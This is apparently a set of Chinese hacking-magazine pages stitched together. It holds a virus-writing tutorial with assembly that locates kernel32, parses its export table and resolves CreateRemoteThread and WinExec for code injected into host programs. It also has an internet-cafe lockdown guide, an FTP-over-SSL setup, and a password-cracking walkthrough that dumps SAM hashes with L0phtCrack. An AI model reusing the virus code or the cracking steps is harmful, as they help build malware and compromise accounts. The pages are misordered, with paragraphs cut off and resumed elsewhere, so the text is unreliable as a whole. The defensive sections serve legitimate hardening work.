本文是站在刚刚接触病毒技术不久的朋友的角度来阐述病毒技术里最简单、最基础的那部分——API 函数地址的搜索。

API 地址为什么要搜索呢？直接 Call API 函数名或 invoke API 函数名不就可以了吗？这是很多刚接触病毒的朋友不理解的地方。要弄清楚这些问题，就需要了解一些 Windows 程序函数调用的知识。

Windows 程序调用的 API 都存在于外部的 DLL 文件中（如 GetProcAddress 函数就位于 Kernel32.dll 中，MessageBoxA 函数在 User32.dll 里面），而程序中的 Call API 指令编译后实际上被转化为 EXE 文件 .text（各个编译器编译出来的 EXE 代码块的块名是不一样的）节中的“Call .text 块中地址”，而这个地址的内容是 `Jmp dowrd ptr [xxxxxxxx]` 指令，xxxxxxxx 这个地址位于 EXE 文件的 Import 表中（即 EXE 的 .idata 块），xxxxxxxx 中保存的才是 API 的真正地址，也就是说 EXE 中调用 API 的真正地址都在 Import 表中。

现在我们来看看下面一段代码：

```
asm
Push MB_OK
Push offset szCaption
Push offset szMessage
Push NULL
Call MessageBox
```

假设 Call MessageBox 被转化为 .text 块中的 `Jmp dword ptr [00400250]`（00400250 是编译器根据 EXE 的引入表得到的）指令，那么地址 00400250 中存的应该是 MessageBox 函数的真正地址，从而成功地完成函数的调用。但是，病毒代码总是要植入宿主程序中，而宿主程序中根本就没有病毒的引入表；也就是说，00400250 地址中没有 MessageBox 的真正地址。这样，函数的调用就会失败，所以病毒必须自己动态地获取 API 地址。

## 二、怎样搜索 API 地址

通过上面的讲述，我们大致明白了病毒为什么要搜索 API 地址。现在回到我们的主题，要想获得 API 的地址，得首先获得诸如 kernel32.dll，user32.dll 的基址，然后再找到真正的函数地址。那么，如何获得基址和函数地址呢？下面介绍几种 API 地址的获取方法：

- 1. 搜寻宿主的引入表获得 GetModuleHandleA 函数和 GetProcAddress 的地址，然后通过它返回系统 dll 的基址。因为很多程序都要使用这两个函数，因此在某些情况下是可行的，但是假如宿主没有调用 GetModuleHandleA，那么你就不能获得基址，别的函数的地址就更得不到了。
2. 硬编码调用函数，比如在 9X 下 GetProcAddress 的地址一般是 BFF7****。但这种方法有一个致命的缺陷，在不同版本的 Windows 操作系统上获得的 API 地址会不相同。换种说法就是；如果病毒是在 Win9x 上编制的，那么它肯定不能在 Win2000/XP 上运行。
3. 直接获得 kernel32.dll 的基址，然后再搜寻 Export 表获得 GetProcAddress 的地址，这样我们就能得到任何想调用的函数地址。

对于第 1 种和第 2 种方法存在兼容性的问题，只有第 3 种方法兼容性最好。

下面具体介绍第 3 种方法：

### 第一步：搜索 Kernel32.dll 基址

我们知道，系统运行可执行文件的工作是 Kernel32.dll 中的 CreateProcess 函数完成的，CreateProcess 在完成装载应用程序后，会先将一个返回地址压入到堆栈项端，然后转向执行刚才装载的应用程序。当该应用程序结束后，会将堆栈项端数据弹出放到 EIP 中，继续执行。

刚才堆栈项端保存的数据是什么呢？仔细想想，我们不难明白，这个数据其实就是在 Kernal32.dll 中的返回地址。其实，这个过程同应用程序用 call 指令调用子程序相似。这里给出伪码（事实上，真正调用 PE 入口的函数是 BaseProcessStart）：

```
//Kernel32.dll Image
xxxx0000

__Stdcall CreateProcess (...)
{
    mov eax, PE.ImageBase
    add eax, PE.RVAofEntryPoint
    call eax    ; 跳转到病毒入口地址
}

RetAddress 地址进栈
xxxxxxxx    RetAddress    ; 知道了 RetAddress，向上找到 xxxx0000

xxxxxxxx    // Other Apiz and Data
```

CreateProcess 是 Kernel32.dll 的函数，它内部所有指令当然在 Kernel32 地址空间内。另外，当我们保留地址空间的一个区域时，系统要确保该区域从一个分配粒度的边界开始。目前，在 Windows 所有平台上均为 64KB 开始，当保留地址空间的一个区域时，系统还要确保该区域的大小是系统的页面大小的倍数。因为页面大小通常是 4KB 或者 8KB，都能被 64KB 整除，所以为了提高效率，搜索时按照 64KB（10000h）递减往低地址搜索，就必然可以找到 Kernel32.dll 的映像的首地址，即 Kernel32 模块的基址。请看下面的代码：

```
GetKBase:
mov edi,[esp+04h]
; 这里的 Esp+04h 是不定的，主要看从程序第一条指令执行到这里有多少 Push
; 操作，如果设为 N 个 Push，则这里的指令就是 Mov edi,[esp+N*4h]
and edi,0FFFF0000h
while TRUE
if WORD ptr [edi] == IMAGE_DOS_SIGNATURE
; 判断是否是 MZ
mov esi,edi
add esi,DWORD ptr [esi+03Ch] ; esi 指向 PE 标志
if DWORD ptr [esi] == IMAGE_NT_SIGNATURE
  ; 是否有PE标志
  break ; 如果有跳出循环
endif
endif
sub edi, 010000h ; 分配粒度是10000h，dll必然加载在xxxx0000h处
if edi < MIN_KERNEL_SEARCH_BASE
  ; MIN_KERNEL_SEARCH_BASE 等于70000000H
  mov edi, 0bff70000h
  ; 如果上面没有找到，则使用Win9x的KERNEL地址
  break
endif
endw
mov hKernel32, edi ; 把找到的KERNEL32.DLL的基地址保存起来
```

### 第二步：查找 Kernel32.dll 的 Export 表中 GetProcAddress 的地址

查找 Export 表之前，我们先来看看 Export 表的大致结构：

IMAGE_EXPORT_DIRECTORY Function Address Table (AddressOfFunctions)

NumberOfFunctions 字段：Address Of Functions 所指向的数组元素的个数（其实就是该模块输出函数的个数）。

NumberOfNames 字段：模块中函数名的个数，有些 API 函数是没有函数名的。

AddressOfFunctions 字段：模块中所有函数的 RVA 都保存在一个数组中，而本字段就指向这个数组。

AddressOfNames 字段：指向所有函数名 RVA 数组。

AddressOfNameOrdinals 字段：指向包含上述 AddressOfNames 数组中相关函数之序数的 16 位数组。

从上图可以看出，如果要在模块的 Export 表中查找 MyFunc3 函数的地址，必须先根据 IMAGE_EXPORT_DIRECTORY 结构中的 AddressOfNames 字段找到包含函数名数组的首地址，然后在函数名数组中查找与 MyFunc3 相同的项，从而得到 MyFunc3 函数在模块中是第几个函数。在上图 MyFunc3 在函数名数组中是第 2 个，那么，我们可以用 2*2+AddressOfNameOrdinals 得到 MyFunc3 函数的序号，最后，MyFunc3 函数地址可以这样作 mov Eax,dword ptr [序号*4+AddressOfFunctions]。

下面给出通过 API 函数名查找 API 函数地址的算法：

- 1. 定位到 PE 文件头。
2. 从 PE 文件头中的可选文件头中取出数据目录表的第一个数据目录，得到导出表的地址。
3. 从导出表的 NumberOfNames 字段得到已命名函数的总数，并以这个数字做微循环的次数来构造一个循环。
4. 从 AddressOfNames 字段指向的函数名称地址表的第一项开始，在循环中将每一项定义的函数名与要查找的函数名比较，如果没有任何一个函数名符合，说明文件中没有指定名称的函数。
5. 如果某一项定义的函数名与要查找的函数名符合，那么记住这个函数名在字符串地址表中的索引值，如 x，然后在 AddressOfNameOrdinals 指向的数组中以同样的索引值 x 去寻找数组项对应的值，假如该值为 m。
6. 以 m 值作为索引值，在 AddressOfFunctions 字段指向的函数入口地址表中获取的 RVA 就是函数的入口地址，当函数被装入内存后，这个 RVA 值加上模块实际装入的基址（ImageBase），就得到了函数真正的入口地址。

对于病毒来说，通常是通过 API 函数名称来查找 API 函数地址，下面是相应程序：

```
asm
mov edx, edi ; edx->KERNEL32 基地址
assume edx : ptr IMAGE_DOS_HEADER
add edx, [edx].e_lfanew
assume edx : ptr IMAGE_NT_HEADERS
mov edx,[edx]  ; OptionalHeader.DataDirectory.VirtualAddress
add edx,hKernel32  ; EDX -> KERNEL32 输出表地址
assume edx:ptr IMAGE_EXPORT_DIRECTORY
mov ebp,[edx].AddressOfNames
add ebp,hKernel32  ; ebp->指向所有函数名的RVA数组
xor eax,eax  ; eax为现在查找的是模块中的第几个函数
repeat
    push 14  ; 为GetProcAddress函数名的长度
    pop ecx
    mov edi,[ebp]  ; 取得函数名RVA
    add edi,hKernel32
    lea esi,nGetProcAddress
    repz cmpsb  ; 比较输出表中第1个函数名是否是GetProcessAddress
    if zero?
        break  ; 如果是跳出
    endif
    add ebp,4  ; 下一个RVA
    inc eax  ; 为现在查找的是模块中的第几个函数
until eax == [edx].NumberOfNames
; [edx].NumberOfNames为模块中函数的个数
mov ebp,[edx].AddressOfNameOrdinals  ; 指向AddressOfNames数组中相关函数的序数的16位数组
add ebp,hKernel32
movzx ecx,word ptr [ebp+eax*2]
; 取GetProcessAddress函数的序号，乘以2是因为每个序号为16位
mov ebp,[edx].AddressOfFunctions
; [edx].AddressOfFunctions指向所有输出函数的RVA数组的首址
add ebp,hKernel32
mov eax,[ebp+ecx*4]  ; 乘以4是因为每个函数的地址占4字节
add eax,hKernel32  ; eax为GetProcAddress函数的地址
mov _GetProcAddress,eax
```

```
asm
GetOtherApiz:
call @api_table
db 'CreateThread',0
db 'CreateRemoteThread',0
db 'WinExec',0
@Api_table:
pop edi
call @api_dest
K_Apiz:
_CreateThread        dd 0
_CreateRemoteThread  dd 0
_WinExec             dd 0
K_API_NUM = ($-K_Apiz)/4  ; 病毒中用到的API函数的个数
@Api_dest:
pop esi  ; esi为存放找到的函数地址数组的首址
push K_API_NUM
pop ecx
xor ebp,ebp
K_begin:
push ecx
push edi  ; edi上面定义的函数名数组的首地址
push hKernel32
call _GetProcAddress
or eax,eax
jz GA_Fail
mov dword ptr [esi],eax
GA_Fail:
xor eax,eax
repnz scasb  ; 寻找字符串结束标志，使edi指向下个函数名
add esi,4
pop ecx
loop K_begin
```

### 第三步：获取其他函数地址

在上面，我们已经找到 GetProcAddress 函数的地址，接着只要：

Call GetProcAddress,hKernel32,offset NameOfFunction

就可以得到其他函数的地址。当然，我们也可以用以上方法找到所有需要用到的 Kernel32.dll 中的 API 函数的地址。下面是用来通过 GetProcAddress 搜索相应 API 函数地址的程序代码：

如果我们需要找到其他 dll（譬如 user32.dll）文件中的 API 函数地址，我们还需要查找 kernel32.dll 中的 LoadLibrary 函数的地址，用它来配合 GetProcAddress 函数就可以找到所有 API 函数地址了。

后记：本期我们详细讲解了病毒技术中最基础的知识，相信这对于绝大多数病毒技术爱好者来说，这应该算得上是目前国内最好、最基础的教程之一了。经常有人在论坛无数次地问到这个问题，我想这也算上是专栏献给大家的第一份薄礼吧。希望大家继续关注本专栏！

网上充斥着针对破解网吧封锁权限的文章，手段也越来越高明，从 Javascript 技术构架在线破解系统到 ActiveX 技术构架的在线破解系统，其破解手段及技术含金量、技术成熟度，越来越走向成熟，读取还原精灵等软件描述的密码是小儿科了，甚至发展到了调取 16 位 MS-DOS 程序破解硬件硬盘保护卡、硬盘还原卡密码。面对越来越成熟的破解手段，网吧管理也越来越走向一个窘迫的处境，网管面临着严峻的挑战，在 BOSS 严厉要求和客户百般挑剔之间怎样才能走出一条技术之路？怎样才能让自己辛辛苦苦做出来的心血不至于付之东流？接下来，就让我们掀起来自网管的反击吧！

# 来自网管的反击

文 / rongké

在这场反击战之前，我必须向“网吧黑客”声明的是：我们完全可以终结长久以来“网吧杀手”混战的局面，但基于资金和各方面的原因，条件不允许我们打造一个高效安全的网吧，也就导致本文出现了“加固篇”、“增强篇”两个版本。可以这样说，除了一切物理破坏的可能，这两个版本中所做出的安全防御都能很好地抵挡当今流行的攻击手段。

考虑把 USB 接口给屏蔽了，或者干脆禁止 USB 的使用。这是我们在系统启动前所能做的一些防护手段，当然还有很多。

其次，对于使用万象等网管软件的用户，万象所能做出的一些设置，我们就不用了。对于一个失败的软件来说，我们之所以采用它，是把它当作一个记费软件来使用而已。由于 Windows 98 本身是一个脆弱、开放的系统，所以我们需要利用一些第三方软件进行设置从而对系统进行保护。应用工具：硬盘文件卫士 Protect Z、ieprosetupv1_2_2p.exe、eXeScope

基于当今 95% 的网吧都还在使用 Windows 98 或者 Windows Me 这个毫无本地安全性可言的操作系统作为网吧的操作平台，也出于众网吧大都在使用万象、美萍、方竹等网吧管理软件，暂且不说它们没能从操作系统的内核上入手彻底改造用户权限、怎么失败，先说说我们怎样才能做到全方位地杜绝网吧黑客的肆意破坏。就让我们在原有的基础上，一步一步地加固我们的系统，完成我们的“加固篇”。

## 一、加固篇

首先，为了避免从 OS 的底层进行硬化，我们必须为 BIOS 设置一个强壮的密码，禁止使用热键，包括 Ctrl+Alt+Del 和 Alt+Tab 等，开机屏蔽 F4、F5、F8 键，出于当今闪盘 u 盘的流行，可

### 1. 安装与基本设置

安装 Protect Z 结束以后，一定要重新启动计算机，才能够最后完成安装。安装完成后启动程序可打开一个设置窗口，工作窗口右上角的 ON/OFF 开关显然是控制程序是否起作用的，默认处于 ON 状态，以红色显示，表示程序的功能是打开的，相应的保护功能是生效的，不能随意访问文档。如果将开关置于 OFF 位置，开关就以绿色显示，表示可以访问相应的文档，如图 1 所示。

### 2. 保护文件

通过工作窗口左边的文件夹列表区域找到要保护的文件所在的文件夹将其选定，而后单击工具栏上的 Add (添加) 按钮可打开一个对话框。这个对话框供用户设置保护指定文件夹中的哪些文件，以及设置保护级别。文件范围可以通过通配符来设置，保护级别可以通过相应的符号来指定。具体的保护级别在程序的帮助文件中讲得很清楚，这里不再赘述。设置好以后，单击对话框里的 OK 按钮，即可将该文件夹的路径名添加到工作窗口右边的列表区域。重复同样的过程，可以添加多个要保护的文件夹（如系统文件夹、刀锋软件等），并设置其中要保护的文件类型，这时窗口最右边的选项区域里的所有选项就都可以使用了。将所有要保护的文件夹添加到工作窗口右边的列表区域中以后，每个文件夹项目都可以通过启用或者禁止复选项目的方式随时更改其受保护的状态，这个复选项目就是工作窗口最右边选项列表中最上边的 Enable。选定一个文件夹项目，再设置这个复选项目的状态即可。保护文件夹的选项除了 Enable 这个总的设置以外，还有 Delete file(s)、Create file(s)、Read file(s)、Rename file(s) 以及 Open file(s) 等多种，在一个项目的总控制选项处于保护的状态下，启用了一个复选项目以后，就表示这个文件夹中不能进行相应的操作。例如，启用了 Open file(s) 复选项目以后，相应文件夹中的文件就不能被打开；启用了 Open Folder (打开文件夹) 复选项目以后，相应的文件夹就不能打开；启用了 Delete file(s) 复选项目以后，相应文件夹中的文件就不能被删除等等。所以，通过启用相应的复选项目，就可以实现保护文件夹中文件的目的。

起来，但是实际上已经是不可访问的了。需要注意的就是，每次设置好复选项目的状态以后，必须单击工具栏上的 Apply (应用) 按钮才能使相应的设置生效。保护状态确定了以后，就只能通过 ProtectZ 程序才能加以改变，而启动 ProtectZ 程序是需要密码的。这里强烈建议把你所需要保护的文件夹加到列表中，并将 Delete file(s)、Create file(s)、Rename file(s)、write file(s)、execute file(s)、delete folder、make subfolder 等选项选择，这样你所选定的文件夹就不能被删、不能创建文件、不能重命名、不能写文件、不能剪切文件、删除文件夹、创建文件夹，这样就很好地限制了一些客户的破坏性操作。具体的限制可以根据你的需要进行修改！在这个软件的限制下，一般用户很难再更改你的设置。

### 3. 禁止随意启动 ProtectZ 程序

在 ProtectZ 工作窗口中，单击工具栏上的 Options 按钮打开图 2 所示的对话框。

单击对话框中的 Change password 按钮，可打开一个对话框供设置密码。密码设置好以后，再启动 ProtectZ 程序的时候，就需要提供正确的密码才能打开其工作窗口，进而更改原来设定的保护属性了。强烈建议使用一个强壮的密码，热键设置为较为少用的热键，如 Ctrl+`。单击工作窗口工具栏上的 Additionals (附加) 按钮可打开 Additional policies (附加规则) 对话框，进行其他一些设置。强烈推荐你按下图设置，它杜绝了非法用户进行非法设置的可能，图 3 所示的是其中的 System 选项卡。

还有更多设置，你可以自己酌情考虑。经过以上的设置，不要我解说你也应该看懂了吧，非法用户在你的系统上基本上是不能进行任何的非法操作，比如从 IE 中进入各分区、修改注册表、删除系统文件、创建文件、开共享、修改个性化设置等，以往的一切破解方法都失效，当然你可以赋予他们一定的权限，比如虚拟出一个特定的文件夹给他们任意支配，毕竟满足客户的需要也是我们网管的职责。但经过以上的设置，还远远不够，因为没有对下载进行限制的话，上面的一切操作都是徒劳。非法用户可以通过下载一些软件作出相应的修改，接下来，我们针对当今流行的破解方法一一破解之。

针对利用超级文本协议下载（具体方法可以参看黑防 2003 第 4 期），我们可以这样完美破解，将 IE “文件”中的“另存为”选项禁止，禁用另存为 Web 页这些都可以通过修改注册表来实现。但为了众网管能高效、安全地进行修改，我们这里提供一个简单易用的 IE 设置工具 ieprosetupv1_2_2p.exe（见附件）

- 1. 针对利用 FTP 方法下载，这更简单，我们可以把 `ftp.exe` 删掉，禁止 `.com` 程序的运行或者禁止用户访问系统文件夹。
- 2. 针对利用 QQ 进行传送文件，我们也可以很容易地实现，在主机装个防火墙，过滤一些数据包，或者利用 cXeScope 对 QQ 进行修改，把 QQ 中文件中的“保存”控件删除，在安装 QQ 时不要安装腾讯浏览器。
- 3. 当然，在 IE 中要禁止任何文件下载，并把 IE 选项设置为不可操作，如图 4 所示。
- 4. 至于 Javascript 技术构架在线破解系统和 ActiveX 技术构架的在线破解系统，我们可以禁止 Javascript、ActiveX 插件和控件的运行，这一切都可以通过 ieprosetup 来实现，还有更多功能，请自己选择。可以说，通过这两个软件，我们可以方便快捷地破解当今流行的一切破解手段。

## 二、增强篇

增强篇完全是建立在基于 NT 内核的 Windows 2000 的基础上，由于 Windows 2000 是一个完全的多用户网络操作系统，因此它的安全性能和稳定性与 Windows 98 相比是天壤之别。利用 Windows 2000，结合 NTFS 格式的磁盘格式，我们完全可以做到隐藏分区、禁止下载、禁止访问磁盘、禁止执行特定程序，而且做到这一切都是很简单的事情，完全没有必要通过修改注册表来实现，因为这一切都是用户权限所造成的，是从系统的内核上打造出来的安全的系统。接下来就开始我们的部署。

- 1. 为客户机安装 Windows 2000 Professional，在安装过程中采用 NTFS 格式化安装分区，其余分区待系统安装完毕后，再采用 NTFS 格式化。切记：一定要用 NTFS 格式化所有的分区。
- 2. 安装完系统后，我们要严格按照规范安装所有的驱动程序。这个问题非常重要，Windows 2000 对硬件稳定性和兼容性要求很高，特别是对于威盛和英特尔的大部分芯片组来说，请务必在安装显卡、声卡驱动之前，先安装主板驱动和补丁，对于显卡请关注厂商发布的最新驱动，声卡用驱动光盘里附带的驱动就可以应付过来了，网卡更不要说了。
- 3. 接下来，我们必须为 Windows 2000 打上各种补丁，如 SP3 等，这很容易解决，黑防都会在每期光盘里附带相应漏洞补丁，请关注。IE 版本强烈建议大家升级到最高版本，并打上各安全补丁，从而最大限度地减少从本地破坏的可能。
- 4. 做完这些前期工作，我们就来进行客户机的安全配置。

接着谈谈用户账户设置，首先我们为管理员设置一个账户和一个强壮的密码，这一点也很重要，必须是强壮的无规律性的。在此强烈建议把 administrator 名改成不起眼的名称。

其次，我们为本地登录的客户建立一个账号 guester，这请在管理工具中的“本地用户和组”中添加，把“用户下次登录需要更改密码”去掉，选中“用户不能更改密码”和“密码永不过期”，单击“创建”就完成操作。

然后，我们必须为用户设定权限。我们利用 Windows 2000 的高级磁盘管理功能来限定一般用户的权限。我们设定客人无法读取 C 盘，无法向任何分区写入文件，当然根据 Windows 2000 的安全配置选项，客人可以在其配置文件夹进行一切操作，这就很满意地满足了一些合法用户的要求。首先，用鼠标右键点击 C 盘，选择“安全”选项卡，我们可以发现，系统默认的是 Everyone 完全控制 C 盘，我们把它从列表中删除，然后添加 Administrators 组，确定后退出，并将 Administrators 组设置为完全控制，如图 5 所示。

这样，客人除了以上操作外，他是无法向磁盘写东西的。这很好地满足了 boss 和客户的需要。由于 NTFS 的可继承性，当我们设定了磁盘访问权限之后，也就设定了磁盘内所有文件夹和程序的权限，那不意味着用户可以访问和读取注册表编辑器？很简单，我们可以这样设置：在“安全选项卡”中把“Users”和“Everyone”用户组删除。要注意的是我们需要把 regedit.exe（在 c:\winnt\）和 regedt.exe（在 c:\winnt\system32\）进行相同的设置，这样就很好地限制了用户的注册表的操作。同样地，我们还要对以下程序进行相同的设置：网吧管理软件、MMC.exe。

这时会发现我们以 guester 登录后，我们不能访问 C 盘。但这样还不够，因为 guester 不能运行 C 盘下另外安装的软件，所以我们还需要把所有娱乐、应用软件装在其他分区，除了你不允许用户访问的软件装在系统分区上，其他分区也采用如图 7 一样设置外，我们还要添加 guester 组，并设置适当权限只允许“读取及运行”、“列出文件夹目录”、“读取”，如图 6 所示。

还有更多的设置我们可以通过“组策略”来实现，或者通过一些系统软件进行更为变态的设置，如禁止访问控制面板、右键菜单等。

由于以上配置的 Windows 2000 已经让你的系统达到了足够的安全性，已经很难利用当今流行的破解手段进行破解，在这里在线破解系统已经无能为力了，所以也就没有对下载进行限制的必要了，开发了下载很多破解方法也是不攻自破，显得多余了，这也就给客户一个相对宽松、自由的上网环境。这样，我们唯一还需要做的就是装上一个杀毒软件，防止病毒的横行。

经过以上两个方案的比较，我们发现，后者明显地比前者工作量少，易维护但也要求机器的配置要能过得去、技术要求性强。

由于现在网吧的普通上网方式是通过 HUB 或者交换机 + ADSL 共享上网，所以为了避免客人免费帮你设置 ADSL 猫，我们还需要给猫设置一个强壮的密码，不能采用默认设置。经过我的调查，52% 的网吧都没能修改 ADSL modern 的默认密码！使其暴露于网络上，这是很危险的，也就出现了利用路由器或者交换机做跳板的教程。当然，我们不想看到我们的设备被这样糟蹋。

如图 7 所示，在 IE 浏览器中输入 192.168.1.1 就可以调出。接下来，我们就为其设置一个强壮的密码，如图 8 所示。

只有杜绝了服务器被攻击的可能，结合客户端的安全，这个网吧在技术上来说才是安全的。为客户创造一个舒适、宽松的上网环境，同时有效地维护网吧的安全，这样的网管才是尽职的！

Glub Tech Secure 是一款适用于 FTP 辅助的软件，它是一款命令行、支持 SSL 加密的 FTP 客户端工具，一直以来受到很多用户的青睐。本文就是笔者针对这款软件的一个详尽说明，希望能对读者有所帮助。

# 让微软的 FTP 服务器也用上 SSL

文／朱宏志

现在有很多 FTP 服务器软件都支持 SSL 了，但微软却没有对 IIS 中的 FTP 提供 SSL 支持（虽然它对 IIS 的 Web 服务提供了 SSL 支持），那有什么办法让微软的 FTP 也用上 SSL 呢？在微软提供支持之前，看来只有利用第三方的软件来达到目的了。在这里就有一款软件：来自 Glub Tech 公司的 Secure FTP Wrapper（以下简称 SFW），从它的名字就可以看出，它是一种专为没有 SSL 功能的 FTP 服务器提供 SSL 支持的外壳软件，即它本身并不是一款 FTP 服务器软件，它只是为其他的 FTP 服务器提供 SSL 支持。

SFW 的试用版，在下载之前会要求你填写一些信息，其中有一个页面是要求填写你的邮件地址和 FTP 服务器的 IP 地址，请务必填写正确，因为它会给你发送一个许可文件，而且这个许可文件就是针对你所填写的 FTP 服务器的 IP 地址的。由于 Secure FTP Wrapper 的运行需要 JAVA 运行环境（版本 1.3 以上）的支持，所以在安装 SFW 之前，你需要在命令行下用 java version 命令来检查计算机上的 JAVA 版本，如果命令不能执行或执行后发现版本低于 1.3，那么就请先到 http://www.sun.com.cn 下载并安装更新的 JAVA 版本（比如 J2SE1.4）。在保证你的 JAVA 运行环境满足要求之后，你就可以安装 SFW 了，它的安装很简单，一路“Next”即可。

## 一、下载与安装

你可以到 http://www.glub.com 网站去下载

## 二、产生或导入一个 FTP 服务器证书

要实现 SSL 功能，首先 FTP 服务器要有一个证书，SFW 可以为它生成一个证书，也可以把已有的证书导入。安装完成之后，SFW 就会打开一个证书配置向导，下面是简单的步骤说明：

步骤1：跳过声明界面，进入如图 1 所示的画面，在“IP Address”填入 FTP 服务器的 IP 地址，也就是你在下载之前填写的 FTP 服务器 IP 地址，完成后进入下一个窗口。

步骤2：在这个窗口中填入证书的各项信息（图 2），如果已经有了一个证书，还可以点击“Advanced”单选框导入一个已经存在的证书。完成后进入下一个窗口，点击“Finish”按钮就会开始生成证书的过程。

## 三、启用 SFW

上面的步骤完成后，把发给你的许可文件复制到 SFW 的安装目录中，然后点击桌面上的 SFW 图标，就可为这台计算机上的 FTP 服务器提供 SSL 支持了，并不需要再进行其他设置。从这里可以看出，SFW 不但适用于微软的 FTP，而且还可以用来为其他的 FTP 服务器提供 SSL 支持，由于它运行在 JAVA 环境中，所以它也能够为 UNIX 系统下的 FTP 提供 SSL 支持。

## 四、客户端的连接

Glub Tech 公司为我们提供了一个免费的 FTP 客户端：Secure FTP，它支持通过 SSL 与 FTP 服务器连接，它不光可以作为 SFW 的配套客户端，而且也能够作为其他提供 SSL 支持的 FTP 服务器的客户端，它的运行也需要 JAVA 支持，检测与下载同前面一样，这里就不再说了，Secure FTP 也在 http://www.glub.com 下载。

- 1. 使用方法：步骤1：点击工具栏最左边的红绿灯图标，出现如图 3 所示的连接窗口。
2. 在“HostName”中填入 FTP 服务器的地址，在“Username”和“password”中分别填入账户名和对应的密码。如果你要经常使用这个连接，把“Save to Bookmarks”也勾选上。

步骤2：切换到“Security”标签，在“Security”栏中选择“implicit SSL”，如果选择“None”，就不会使用 SSL 功能。选中下面的“Data Encryption”，完成后点击下面的“Connect”按钮即可（图 4）。

说明：由于是 SSL 连接，所以连接时间比正常连接要久，连接成功后，第一次使用还会弹出接受证书的对话框，点击右边的“Grant Always”按钮即可（如图 5）。

在很多黑客攻击事件中，攻击者成功获取管理员权限往往最初都是从拿到普通用户权限开始的。只要连上互联网，任何人都可以非常方便地下载到令人满意的弱密码扫描工具。既然如此，你还允许你的机器中含有弱密码用户吗？肯定不会，那我们如何对弱密码进行限制呢？若不对其限制会有哪些危害呢？看完本文，或许你会有所感悟。

# Windows 2000 账户密码的攻击方法以及对抗策略

文／单长虹

密码与用户账户的有效利用是网络安全性的最大问题之一，如何有效地保护密码不被破译是我们一直以来孜孜以求的最高境界。密码的保护技术也正随着时代的进步和技术的发展日臻完善，但是，就当我们在阳光下努力工作的时候，另一部分人却趁着月黑风高，在摸爬滚打中使尽浑身解数实践着他们的行动——密码的破译。

本文将从黑客对密码的攻击方法入手，讲述在 Windows 2000 下的密码攻击，以及其经常被黑客驾驭的工具。当然了，如果只有这些是不行的，最后我还将就这些攻击来讨论一下对抗的策略，使各位能在运筹帷幄之中，拒黑客攻击于千里之外。

## 一、常见的攻击技术介绍

- 1. **字典攻击（directory attack）**

到目前为止，简单的字典攻击是闯入机器的最快方法。我们可以选取一个充满字典文字的文本文件作为字典文件，并将其装入破解应用程序（如 L0phtCrack），根据应用程序定位的用户账户进行破解。在通常情况下，由于用户的警惕性不够高，而导致密码过于简单，所以使得字典攻击往往能够行之有效。

- 2. **混合攻击（hybrid attack）**

另一个众所周知的攻击形式是混合攻击。这种攻击往往是在字典攻击不奏效的情况下，针对相对复杂一点的密码，如对含有数字和字母的密码进行攻击时使用的方法。混合攻击中，数字和字符将被添加到文件，以备生成密码组合来供破解者使用。

- 3. **蛮力攻击（brute force attack）**

顾名思义，只有当以上两种攻击方法不能有效地破解时，我们才会采用最笨的办法。不过，最笨的办法往往也是最有效的办法，它通常需要很长的时间进行穷举，这种攻击可能要花费几个月的时间。密码的破解史上曾经发生过一件有趣的事情，像著名的 DES（Data Encryption Standard）曾经叱咤江湖 20 年，但是最后还是死在了最笨的穷举攻击之下。毕竟已是“大江东去，浪淘尽千古风流人物”，最后 America 不得不放弃使用 DES 而采用 AES（Advanced Data Encryption Standard），不知它能否经受得起时间的考验？

## 二、用 LC4 破解用户系统登录密码

密码攻击中，最常使用的工具之一是 L0phtCrack（简称为 LC4）。下面将对这个工具做一个介绍。

L0phtCrack 是在 NT/2000 平台上使用的密码攻击工具。通常，在 OS 中为了安全起见，用户的密码都是经过加密之后再使用 hash 算法进行散列，并将其保存在 cryptographic hashes 列表中。我们把这样一些信息称为敏感信息，因为这样的信息如果不幸落入攻击者的手中，他们将利用这些敏感信息进行攻击以致获得密码，从而可以得寸进尺，非法获得用户甚至是系统管理员的权限，最终的后果将不堪设想。此外，它并不总是有害，也有可以利用的地方，比如我们可以使用它找回用户遗忘的密码，检索用户密码等。

上面说了这么多，也都只不过是做一个预热的过程，下面我就要来介绍一下如何使用 L0phtCrack 了。

首先，我们得想办法得到密码的 hash 列表，在这里我将介绍两种常用的方法。其一，找到 SAM 文件，然后使用 L0phtCrack 工具的“File”菜单中的“Import SAM File”导入 SAM 文件。其二，可以使用“Tools”菜单中的“Dump Passwords From Registry”，在对话框中输入已经注册过的计算机的 UNC 路径（\\<计算机名>或\\<ip地址>），确定之后就可以将用户名和密码下载到 L0phtCrack 中。

其次，有了密码的 hash 列表之后，还需要准备一个字典，你可以使用它自带的 word-english 文件，也可以自己创建一个或到网上下载一个。然后打开“File”菜单中的“Open Wordlist File”命令，将该字典文件选择进去就可以了。

最后，如果要进行“蛮力攻击”，还应打开“Tools”选项中的“Options”命令，设定蛮力攻击所要使用的搜索空间，通常可以根据需要自由选择。做了以上这样一些预备工作之后，你可以打开“Tools”菜单的“Run Crack”命令来进行密码的攻击。当然了，这需要耗费一定的时间，当攻击完成以后，你可以看到列出的密码的明文。到此，一次攻击结束。

## 三、设置账户锁定策略

由上面的过程我们可以看到，整个过程是如此的简单，但系统一旦受到攻击，带给你的危害将是无穷的。那么，如何防止被攻击呢？

通常情况下，我们可以设置密码符合复杂性要求，或者设定账户锁定策略，就可以有效地防止攻击。方法如下：

- 1. Windows 2000 中，打开“开始”菜单—>“控制面板”—>“管理工具”—>“本地安全策略”。
2. 在本地安全策略之中，打开“帐户策略”，先来看“密码策略”，在这里你可以启用“密码必须符合复杂性要求”，当启用这一项之后，本机上新用户的密码必须符合复杂性要求，即既要有数字、字母，又要有特殊字符。再来看“账户锁定策略”，在这里，我们可以设定“账户锁定阈值”来指明当用户进行几次无效登录后便锁定账户。还有，也可以设定“账户锁定时间”来指明账户被锁定之后，过多长时间之后允许它再次登录。

后记：在上面的讨论中，我们主要明确了什么是密码攻击、常用密码攻击的方法、使用的工具以及如何对抗密码攻击，相信它或多或少对我们维护系统的安全性有一定的帮助。

## （上接第47页）

端口统统关闭。其实现方法如下：

- 1. 右键点击“网上邻居”，打开“属性”页，在你向外提供服务的某个连接上点击右键，打开“属性”页，双击“Internet 协议（TCP/IP）”，在打开的对话框中选择“高级”按钮，打开“选项”页，双击“TCP/IP 筛选”，选中“启用TCP/IP筛选”。
2. 3个项目，分别是“TCP端口”“UDP端口”“IP端口”，在这里，你可以根据自己的需要，启用相应的协议端口。这样，未被启用的端口将被全部关闭。

